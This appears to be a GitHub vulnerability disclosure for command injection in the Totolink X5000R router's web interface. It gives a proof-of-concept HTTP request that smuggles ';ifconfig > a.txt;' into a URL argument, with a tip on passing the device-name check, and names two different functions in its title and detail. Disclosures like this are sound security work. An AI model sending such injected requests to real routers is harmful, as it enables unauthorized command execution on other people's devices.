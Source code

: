 # Command injection vulnerability in api_connect function
### description
Vendor: Totolink
Version: X5000R (latest version)
Detail: There is a command injection vulnerability in vif_enable function in mtkwifi.lua

![图片](https://github.com/user-attachments/assets/b297c332-527a-4352-b5e9-c12ab837e999)

![图片](https://github.com/user-attachments/assets/e1bc9057-8acd-4f6d-8c0a-391bacd04815)



We use Burpsuite to attack, the effect is as follows.

![图片](https://github.com/user-attachments/assets/7d685306-0477-45f9-904a-5e097cd0537c)
![图片](https://github.com/user-attachments/assets/1d646b0a-8603-49ff-a98f-0fe0d83a2db3)


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.2/;ifconfig > a.txt;  HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0

```
Here we set the arguments "dev" MT7915D.1.2 and vif as ";ifconfig > a.txt;", and there will be a file named "a.txt" in /www/cgi-bin/

### attention
To expolit successfully, we need the correct devname to pass the check.
![图片](https://github.com/user-attachments/assets/7fce0990-9b71-4ae9-b51e-41937dcb3054)



